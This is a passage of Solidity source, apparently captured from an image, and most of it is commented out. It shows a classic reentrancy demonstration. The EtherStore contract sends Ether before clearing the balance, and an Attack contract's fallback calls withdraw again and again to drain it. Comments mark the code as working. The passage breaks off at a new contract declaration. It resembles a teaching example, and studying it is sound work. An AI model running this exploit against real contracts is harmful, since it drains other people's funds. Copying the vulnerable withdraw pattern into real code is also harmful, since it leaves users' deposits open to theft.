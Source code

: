 ```sol

//     }

//     function attack() public{
//         contractA.withdraw();
//     }
// }

//working below
// contract EtherStore {
//     mapping(address => uint) public balances;

//     function deposit() public payable {
//         balances[msg.sender] += msg.value;
//     }

//     function withdraw() public {
//         uint bal = balances[msg.sender];
//         require(bal > 0);

//         (bool sent, ) = msg.sender.call{value: bal}("");
//         require(sent, "Failed to send Ether");

//         balances[msg.sender] = 0;
//     }

//     // Helper function to check the balance of this contract
//     function getBalance() public view returns (uint) {
//         return address(this).balance;
//     }
// }

// contract Attack {
//     uint public count;
//     EtherStore public etherStore;

//     constructor(address _etherStoreAddress) {

//         etherStore = EtherStore(_etherStoreAddress);
//     }

//     // Fallback is called when EtherStore sends Ether to this contract.
//     fallback() external payable {
//         if (address(etherStore).balance >= 1 ether && count<=5) {
//             count++;
//             etherStore.withdraw();
//         }
//     }

//     function attack() external payable {
//         require(msg.value >= 1 ether);
//         etherStore.deposit{value: 1 ether}();
//         etherStore.withdraw();
//     }

//     // Helper function to check the balance of this contract
//     function getBalance() public view returns (uint) {
//         return address(this).balance;
//     }
// }
//Working above:

contract EtherStore {
```
